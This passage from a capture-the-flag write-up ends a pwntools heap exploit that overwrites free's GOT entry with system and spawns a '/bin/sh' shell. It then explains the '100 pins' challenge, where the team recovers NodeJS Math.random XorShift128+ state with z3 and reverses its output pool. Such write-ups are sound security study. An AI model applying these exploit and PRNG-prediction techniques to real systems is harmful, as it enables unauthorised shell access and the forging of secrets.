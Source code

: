 ```python
print("[!] libc_base: %x" % libc_base)
print("[!] libc_system: %x" % system_libc)

write_slot(20, p64(free_got))
write_slot(21, p64(system_libc))
write_slot(1, b"/bin/sh".ljust(chunk_size, b"\x00"))
r.sendline("3")
r.recvuntil("slot>\n")
r.sendline("1")

r.interactive()
```


100 pins
--------

> 4 digits pin are too weak... How about 100 of them?
> nc 18.183.134.249 1234

### The bug(s)

The challenge is made with NodeJS (15.3.0) and the main point was
`Math.random()`. This PRNG
[is not cryptographically secure](https://devdocs.io/javascript/global_objects/math/random),
as we can recorver the initial states of the `XorShift128+` with enough
consecutive outputs and some symbolic execution.

We notice that the "Mastermind" behind this challenge allows us to gather more
information than usual, because there is no check on the length of the input. In
fact we can recover the (unique) digits of the pin choosing the pattern:
`'1'*2^0 + '2'*2^1 + '3'*2^2 + '4'*2^3 + ... + '9'*2^8`.

This gives us a result that tells us exactly the digits of the pin. We can get
this by adding the number of digits in the correct position and the remaining
number of correct digits that are not in the correct position. This number, in
binary, gives us the corresponding digit in the pattern.

After getting the digits we find the correct permutation with a "guess and
prune" algorithm, discarding any rearrangement that is incompatible with the
results of the previous guesses.

In the end our algorithm is capable of finding a correct pin with an average of
4-5 attempts, and with a bit of luck we are able to retrieve the 11 pins needed
to ensure that z3 outputs a unique solution in less than 39 attempts.

Once we have the initial state of the PRNG, we face another problem: the actual
values being generated are stored in a "pool" of 64 numbers, that is refreshed
with 64 new ones every time it is empty. The numbers within the pool are then
outputted in reverse order (as explained in this presentation and
[video](https://www.youtube.com/watch?v=_Iv6fBrcbAM)). This means that, if the
order of the random generation is 1...64||65...128, we get 64...54 and we need
to predict 53...1||128...93. Once we get the seed, the "next" number generated
will be the 54th. This means that we need to reverse the XorShift128+ algorithm
to retrieve the values 53...1! Fortunately,
[this isn't a problem at all](https://blog.securityevaluators.com/xorshift128-backward-ff3365dc0c17).
